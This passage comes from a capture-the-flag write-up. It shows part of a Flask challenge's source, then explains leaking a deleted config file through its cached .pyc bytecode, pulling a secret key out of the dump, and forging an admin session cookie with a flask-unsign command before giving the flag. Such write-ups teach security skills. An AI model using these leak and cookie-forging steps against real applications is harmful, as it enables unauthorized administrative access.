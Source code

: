 ```python

    if not valid:
        return {
            'success': False,
            'error': err
        }

    if True:
        content = fetch(url)
        return {
            'success': True,
            'online': content is not None,
            'content': content
        }

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=10600, debug=False)
```

No more sourceless! We know we need to visit `/flag` with `admin` set to `True` which means we would need to leak the `session_encryption_key` value.

Sadly, the `config.py` file is deleted at runtime. We got stuck here for some time and went down some uWSGI rabbit holes. We also looked into the possibility to leaked the stdout where the value is printed to the screen.

Some time later it hit me and I recalled that `__pycache__` exists! I spun up an environment with the same Python version (`3.11`) and generated some pycache. This allowed me to predict the path: `/var/www/keep-dreaming-sonny-boy/__pycache__/config.cpython-311.pyc` and it was dumped!

What followed was a little bit of "reverse engineering" to pick apart from the output which part was the key:

```
\xa7\\r\\r\\n\\x00\\x00\\x00\\x00:\\xbe\\xf5e;\\x00\\x00\\x00\\xe3\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x01\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\xf3\\n\\x00\\x00\\x00\\x97\\x00d\\x00Z\\x00d\\x01S\\x00)\\x02\\xda Rm7GbQJ4uDikyiis6miD7YwsN11rEjfLN)\\x01\\xda\\x16session_encryption_key\\xa9\\x00\\xf3\\x00\\x00\\x00\\x00\\xfa*/var/www/keep-dreaming-sonny-boy/config.py\\xfa\\x08<module>r\\x07\\x00\\x00\\x00\\x01\\x00\\x00\\x00s\\x11\\x00\\x00\\x00\\xf0\\x03\\x01\\x01\\x01\\xd8\\x19;\\xd0\\x00\\x16\\xd0\\x00\\x16\\xd0\\x00\\x16r\\x05\\x00\\x00\\x00
```

Then I simply used `flask-unsign` like so:

```bash
flask-unsign --sign --cookie "{'admin': True}" --secret "Rm7GbQJ4uDikyiis6miD7YwsN11rEjfL"
```

Copy this to your `session` cookie and visit `/flag` to solve it.

`kalmar{Rem3Mbr_T0_fl0sh!}`
